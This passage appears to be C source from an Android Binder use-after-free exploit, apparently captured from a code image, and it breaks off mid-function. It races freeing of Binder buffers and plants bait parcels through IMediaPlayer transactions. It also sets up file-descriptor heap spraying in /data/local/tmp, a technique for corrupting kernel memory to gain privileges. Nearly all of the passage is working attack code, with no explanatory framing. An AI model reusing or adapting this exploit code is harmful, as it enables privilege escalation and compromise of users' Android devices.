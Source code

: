 ```c
void raceWin(int replyParcelIndex)
{
	pthread_mutex_lock(&alloc_mutex);
	bc_free_buffer(replyParcelIndex);
	global_parcel_index = replyParcelIndex;
	pthread_cond_signal(&alloc_cond);
	pthread_mutex_unlock(&alloc_mutex);
	usleep(450);
	bc_free_buffer(replyParcelIndex);
	bc_free_buffer(replyParcelIndex - 1);
	heap_spray_times();
	restartWatch();
} 

void raceTimes()
{
	for(int i = BAIT - 1; i > 0; i--)
	{
		raceWin(i);
	}
}

void put_baits()
{
	//Avoid the reply data to be released by "~Parcel()"
	for (int i = 0; i < BAIT; i++)
	{
		dataArray[i].writeInterfaceToken(String16("android.media.IMediaPlayer"));
		IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataArray[i], &replyArray[i], 0);
		gDataArray[i] = replyArray[i].data();
		/*for (int j = 0; j < (int)replyArray[i].dataSize(); j++)
		{
			printf("[+] gDataArray[%d][%d], data:%x\n", i, j, gDataArray[i][j]);
		}*/
		//printf("index:%d, user_addr:%p\n", i, gDataArray[i]);
	}
}

void createAllocThread()
{
	pthread_mutex_init(&alloc_mutex, NULL);
	pthread_cond_init (&alloc_cond, NULL);
	pthread_t id_transaction;
        pthread_create(&id_transaction,NULL, bc_transaction, NULL);
}

void create_test_dir()
{
    	system("touch /data/local/tmp/test_dir/fffdfffdfffdfffd");
	system("touch /data/local/tmp/test_dir/abcd.txt");
	fd_guard_heap = open("/data/local/tmp/test_dir/fffdfffdfffdfffd", O_WRONLY); 
	if (fd_guard_heap < 0)
	{
		printf("[-] fd_guard_heap failed\n");
	}
	init_fd_heap_spray();
}

void init_test_dir()
{
	memset(guardBuffer, 0 ,1000);
	system("rm -rf /data/local/tmp/test_dir ; mkdir test_dir");
```